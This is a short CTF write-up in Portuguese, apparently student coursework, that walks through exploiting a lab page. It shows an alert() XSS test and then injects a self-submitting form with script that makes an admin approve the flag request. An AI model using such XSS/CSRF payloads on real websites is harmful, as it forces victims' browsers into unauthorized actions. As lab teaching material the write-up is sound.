





Para realizar este ctf, teremos de trabalhar a partir desta página:



A partir dessa página, apercebemo-nos que poderíamos testar se input que aí pediam era filtrado ou não. Para testar essa condição, decidimos criar uma função `alert()`, da seguinte maneira:

```
<script>alert("Teste");</script>
```

Obtendo este resultado:



A seguir, colocamos este script...

```
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/%7Binserir ID do pedido}/approve" role="form"><div class="submit">  <input type="submit" id="giveflag" value="Give the flag"></div></form><script>document.getElementById("giveflag").click();</script>
```

...no input da página e submetemos assim.

O resultado que nos dará será este:



Voltamos atrás da página e visualizamos o código fonte desta, graças às funcionalidades do noso browser e alteramos o url da página, adicionando ao request desta, o id inicial, o que nos dá este resultado.





Ao vizualizar esta imagem é possível perceber que o id da nossa flag encontra-se presente.


